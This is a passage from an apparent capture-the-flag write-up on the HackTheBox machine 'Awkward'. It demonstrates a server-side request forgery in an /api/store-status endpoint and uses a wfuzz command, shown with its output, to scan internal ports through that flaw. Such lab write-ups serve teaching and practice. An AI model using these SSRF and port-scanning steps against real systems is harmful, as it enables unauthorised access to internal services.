 ### Access API Docs

#### SSRF POC

I noted above that there’s a likely SSRF vulnerability in the `/api/store-
status` endpoint. I’ll send that request to Burp Repeater (with or without a
valid token) and change the GET parameter to be my IP instead of the store
domain, and send it:

![image-20220926143118794](https://0xdfimages.gitlab.io/img/image-20220926143118794.png)

There’s a hit on my Python webserver:

    
    
    10.10.11.185 - - [26/Nov/2022 18:28:50] "GET / HTTP/1.1" 200 -
    

Not only that, but the results are shown in the body of the response:

![image-20220926143424885](https://0xdfimages.gitlab.io/img/image-20220926143424885.png)

#### Find Open Services

I’ll use `wfuzz` to look for any open ports on Awkward:

    
    
    oxdf@hacky$ wfuzz -z range,1-65535 --hh 0 -u http://hat-valley.htb/api/store-status?url=%22http:%2F%2F127.0.0.1:FUZZ%22
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://hat-valley.htb/api/store-status?url=%22http:%2F%2F127.0.0.1:FUZZ%22
    Total requests: 65535
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
    
    000000080:   200        8 L      13 W     132 Ch      "80"
    000003002:   200        685 L    5769 W   75717 Ch    "3002"
    000008080:   200        54 L     163 W    2881 Ch     "8080"
    
    Total time: 640.0032                               
    Processed Requests: 65535
    Filtered Requests: 65532
    Requests/sec.: 102.3979
    

Quick checks in Repeater show that 8080 is just the hats site, likely what
NGINX is proxying port 80 to.

`/api/store-status?url=%22http:%2F%2Fstore.hat-valley.htb:3002%22` returns a
complete HTML page, which I’ll need to enumerate further..

### File Read
